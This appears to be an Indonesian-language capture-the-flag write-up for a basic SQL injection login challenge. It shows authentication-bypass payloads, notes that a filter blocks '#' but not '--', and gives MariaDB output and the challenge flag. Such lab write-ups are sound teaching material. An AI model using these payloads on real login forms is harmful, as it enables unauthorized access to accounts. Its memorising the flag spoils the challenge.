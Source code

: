 <h1><b>Basic SQL-2</h1></b>
<pre>
Login form (username & password)
</pre>
</b><h3>Solution</h3></b>
<p>Pertama lakukan injection sederhana <b>'or''='</b> untuk username dan password</p>

```mysql
MariaDB [CTF]> select * from SQL_Challenge3 where username = ''or''='' and password=''or''='';
+----------+-------------------------+
| username | password                |
+----------+-------------------------+
| admin    | *********************** |
+----------+-------------------------+
1 row in set (0.000 sec)
```
<p>Jika kita lakukan diMySQL berhasil, Dan pada form terdapat error dengan pesan</p>
<pre align='center'>
Illegal Character Detected
</pre>
<p>Kemungkinan terdapat filter pada form yang tidak mengizinkan suatu character</p>
<p align='justify'>Selanjutnya kita coba injection <b>admin'or''#</b> yang kita anggap admin merupakan username bernilai 1(True) yang sesuai dengan database, tanda "#" merupakan 
sintak untuk membuat komentar diprogram php, yang intinya jika kita set "#" semua pemeriksaan sesudah tanda # akan diabaikan yang akan mengambil nilai dari username</p>

```mysql
MariaDB [CTF]> select * from SQL_Challenge3 where username = 'admin'or'''';
+----------+-------------------------+
| username | password                |
+----------+-------------------------+
| admin    | *********************** |
+----------+-------------------------+
1 row in set, 5 warnings (0.000 sec)
```
<p>Pada MySQL berhasil, Tetapi hasilnya masih error pada form seperti sebelumnya</p>
<pre align='center'>
Illegal Character Detected
</pre>
<p align='justify'>Selanjutnya mari kita coba dengan sintak komentar lainnya "--" menjadi <b>admin'or'''--</b>, dan ternyata berhasil tidak terdapat filter berupa character "--"</p>
<pre align='center'>
Your login success
Welcome admin, Flag VenomCTF{Its_5QL_Lv1_2}
</pre>
</b><h3>Flag</h3></b>
<pre>
VenomCTF{Its_5QL_Lv1_2}
</pre>
